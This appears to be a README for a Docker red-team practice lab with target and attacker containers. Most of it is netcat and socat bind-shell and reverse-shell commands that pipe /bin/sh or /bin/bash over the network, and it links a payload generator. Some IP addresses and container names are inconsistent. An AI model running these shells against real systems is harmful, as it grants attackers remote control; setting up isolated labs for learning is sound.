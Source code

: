 
Setup containers using Alpine Linux as target and attacker for red-team exercises.

* The target has an IP address of  `172.24.0.2`.
* The attacker has an IP address of `172.24.0.3`.
* The target and attack have ports 5009 expoed for `tcp` and `udp`.
* Port `5010` is exposed on the target and port `5011` is exposed on attacker to the host. 

The static IP address for the containers can be removed for `nmap` practice.  Install aother tools as needed in the `Dockerfile` for each image.

## Usage

Build and run the containers.  They will stay running in the shell you're using.
```sh
docker-compose up
```

Open a new terminal and setup on `target` container:
```sh
docker exec -it target /bin/bash
```

Open a new terminal and setup on `attacker` container:
```sh
docker exec -it target /bin/bash
```

### Bind Shells
Have the attacker connect to the target.


#### Netcat
Everybody's go-to.  Instructions below are for the neutered `netcat-openbsd` version.

On `target` container interactive bash, connect to the attacker:
```sh
mkfifo f
nc -l -p 5009 0<f | /bin/bash > f 2>&1
```


Find the `attacker` ip address and setup listener:
```sh
nc 172.20.0.2 5009 -vvv
```


#### Socat
Socat is a better option since you can use history and encryption with `tty`.  Target machine is likely going to have netcat installed, but once a shell session is establed, you can install other tools.

[Manual](http://manned.org/nc.openbsd/6f0a5cf9)

Find the `target` ip address and setup listener:
```sh
socat TCP-LISTEN:5009,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```


On `attacker` container interactive bash, connect to the `target`.:
```sh
socat FILE:`tty`,raw,echo=0 TCP4:172.24.0.2:5009
```

Stop connection with `exit` on `attacker`.



### Reverse Shells
Have the target connect to the attacker.  Circumvents inbound firewall rules.

#### Netcat

Find the `attacker` ip address and setup listener:
```sh
nc -lvnp 5009 -vvv
```


On `target` container interactive bash, connect to the attacker:
```sh
rm -f f 2> /dev/null
mkfifo f
cat f | /bin/sh -i 2>&1 | nc 172.20.0.3 5009 > f

OR

nc 172.24.0.3 5009 0<f | /bin/sh -i 2>&1 | tee f
```


#### Socat

Setup listener:
```sh
hostname -i
socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:5009
```


On `target` container interactive bash, connect to the attacker.:
```sh
socat TCP:172.24.0.3:5009 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
```

Stop connection with `exit` on `attacker`.



## Cleanup

On the docker-compose terminal press `ctrl+c` to stop the running containers.  
```sh
docker-compose down
```


## Debugging


### Docker Compose
```sh
docker-compose --verbose up
```

Show running container IP addresse from host:
```sh
docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' <container_name>
```

Show IP address from running container:
```sh
hostname -i
```

List running procees:
```sh
ps
```

Kill specified process ID.  You may need to do this for already running listeners.
```sh
kip <pid>
```

If you get `connection refused`, make sure your listener is running.


## Disclaimer

**This is for educational purposes.  **


## Tools
* [Generate reverse shell payloads](https://www.revshells.com/)


## TODO:
* Static IP addresses for containers for ease via `docker-compose.yaml`?